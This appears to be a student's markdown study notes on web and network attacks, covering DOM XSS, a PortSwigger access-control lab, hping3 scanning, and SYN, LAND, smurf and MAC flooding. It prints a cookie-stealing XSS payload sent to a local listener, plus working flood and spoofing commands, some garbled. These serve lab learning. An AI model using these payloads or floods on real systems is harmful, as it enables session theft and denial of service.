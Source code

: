 # File Inclusion

Check for [File Inclusion Vulnerabilty](../day5/day5.md#file-inclusion-vulnerability) if you learn the basic working where we discuss how things really work in here.

# Direct Object Modal XSS

Refer to [OWASP DOM Based XSS Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS) which tell about the making DOM based XSS Attack.

Steps to performing the practical is the following:

- Go to the page and make changes to the url, the redirected in *default* should be the following:

```
<script>window.location='http://127.0.0.1:1337/cookie?=' + document.cookie</script>
```

And this will get directed the attacker side machine which will be provide the attacker with the session id of the machine or the application that user will be using, say it could be *facebook* or say *youtube*, but the attack might be able to get the sesssion id.

For that attacker would be running an session capture mechanism on his side.

```
python -m http.server 1337
```

This command lets the attacker to listen on port 1337 where he can have the access of the session id.


# Reflected XSS

Refer to [OWASP XSS (Cross-site Scripting)](https://owasp.org/www-community/attacks/xss/) to learn more about it. 



# (ZAP) ZED Attacking Proxy

Move to Source Code Analysis tools, in order to see the tools that are used in order to identify that whether the source code is secure or not.

You can run ap in Kali Linux, using the following cmd.

```
sudo apt install zaproxy
```

It includes DAST and SAST.

# Method-based access control can be circumvented

It is the very vulnerability where normal users are able to promote themselves to the admin account using manipulation of the http requests. Our target is promte to normal user using the adminintrative priveleges by exploiting the method based flaws. Follow the [link](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented) to access the Lab.

Steps to do that:

- Open the lab and login in with credentials (administrator, admin) and see if you are able to upgrade the users, *which you'll be able to*, use burp-suite to track down the request made and **send it to the repeater**.

- Next, try to log in with normal user, and try to change the http request by copying the session id of the user that you've logged in as, and go to the repeater and change the session id of the request that was made with the new one.

- Now *double-click* and change the request to the GET, now change the username to the user you are logged in as and send the request, you'll noteice that you are able to make the change without being an administrator.

# Active Scanning and Finger-printing


```
sudo hping3 -s --scan $PORT_RANGE $TARGET_IP
```

This `-S` means that check for SYN packages, and specify the port range and target IP Address. It will give the command like this.

```
sudo hping3 -S -p 80 $TARGET_IP
```

This is only happen if the port number is open then only it will respond to the SYN message, otherwise it won't give you the message, otherwise it won't give you the response. 

Now in order you wish ro flood the request with the SYN packages, in order that the machine gets all the messages on the destination machine. **Do a experiment**, create two machine and run wireshark over both of them, when you'll start with the SYN flooding, you can check the wireshark to see how packets are going on both the machines. Destination machine will be occuring with high latency, because the website is bussy in reposding to SYN messages.

```
sudo hing3 -S -p 80 $TARGET_IP --flood
```

Use the following to flood the traffic between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP
```

But you can try to flood the SYN packages between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP --flood
```

This is called **LAND Attack**, where we are spoofing the traffic which is going from your local machine but it seems like it is comming from machine.

```
sudo hping --icmp
```

# ICMP Smurfing Attack

You need to run one command and thing will start happening.

```
sudo hping3 --icmp -c 1 192.168.0.255 --rand-source --flood
```

This will send the ICMP messages to the Broadcast address of the router with some random IP address and flood the router with ICMP address, such that router will not be able to send reposnse to other machines in the network.

# A talk worth talking about Switches 

It is a Layer 2 Attack and you can flood mac addresses and use the tool named **macof** to flood the mac addresses. 
```
sudo macof -i en9
```



# Resources

Visit the [portswigger website](https://portswigger.net/web-security) in order to learn more about the methods and latest web based hacks or vulnerabilities in order to protect the website from hacks and threats. 

Visit to [OWASP Input Validation](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html) to look how the inputs taken from the users can't be trusted, secure the methods of taking inputs.

1. Remember to read about the **SAST and DAST tools** and therefore look for it.
2. Read about MVC Structure. Also remember to look for Web Framework, Flask.
3. Js-gaurd is not secure, even if the website is full of virus, it won't block the website. *Need to check it!*

Visit [Offsec File Inclusion Vulnerability](https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/) to learn more about how things work, it explains the RFI as well as LFI.